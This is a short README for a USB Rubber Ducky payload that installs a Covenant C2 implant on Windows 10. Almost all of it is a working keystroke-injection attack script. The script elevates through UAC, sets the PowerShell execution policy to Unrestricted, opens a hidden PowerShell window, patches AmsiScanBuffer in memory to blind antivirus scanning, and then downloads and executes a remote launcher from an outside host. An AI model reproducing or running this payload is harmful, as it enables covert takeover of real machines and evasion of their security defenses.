

# RubberDuck-loads

## Covenant c2 Powershell

Running Microsoft Windows 10 - 10.0.19002.0

Host the PowerShell Launcher on Covenant, grab the URL and drop it into the PowerShell, include an AmsiBypass (Credits to https://rastamouse.me/) and then encode the payload and drop it on the duck.


### Duck payload:
```
DELAY 750  
GUI r 
DELAY 1000 
STRING powershell Start-Process Cmd.exe -Verb runAs 
ENTER
DELAY 750  
ALT y 
DELAY 1000
ENTER
STRING powershell Set-ExecutionPolicy 'Unrestricted' -Scope CurrentUser -Confirm:$false
ENTER
DELAY 750
STRING powershell -Sta -NoProfile -NoLogo -WindowStyle Hidden
ENTER
STRING Add-Type -TypeDefinition @"
ENTER
STRING using System;
ENTER
STRING using System.Runtime.InteropServices;
ENTER
STRING public class PInvoke {
ENTER
STRING     [DllImport("kernel32")]
ENTER
STRING     public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
ENTER
STRING     [DllImport("kernel32")]
ENTER
STRING     public static extern IntPtr LoadLibrary(string name);
ENTER
STRING [DllImport("kernel32")]
ENTER
STRING     public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
ENTER
STRING }
ENTER
STRING "@
ENTER
STRING $LoadLibrary = [PInvoke]::LoadLibrary("am" + "si.dll")
ENTER
STRING $Address = [PInvoke]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
ENTER
STRING $p = 0
ENTER
STRING [PInvoke]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
ENTER
STRING $Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
ENTER
STRING [System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
ENTER
STRING $net = New-Object System.Net.Webclient; $net.DownloadString('http://192.168.1.241/ps') | IEX
ENTER
```

